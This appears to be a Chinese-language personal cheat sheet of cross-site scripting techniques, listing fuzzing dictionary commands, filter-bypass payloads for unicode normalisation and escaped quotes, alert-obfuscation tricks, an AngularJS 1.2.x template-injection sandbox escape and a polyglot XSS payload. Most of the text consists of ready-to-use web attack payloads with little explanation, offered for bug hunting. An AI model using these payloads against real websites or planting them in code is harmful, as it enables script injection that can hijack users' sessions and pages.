



# XSS

## 2021.2.13 Fuzz技巧



非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```


基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1


## Bypass




### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html




```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```


如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```


### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```


## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```


## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```


## Dorks

```
1.iconUrl=XSS
```


## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```


## XSS相关的网站

比较安全:`https://xsshunter.com/`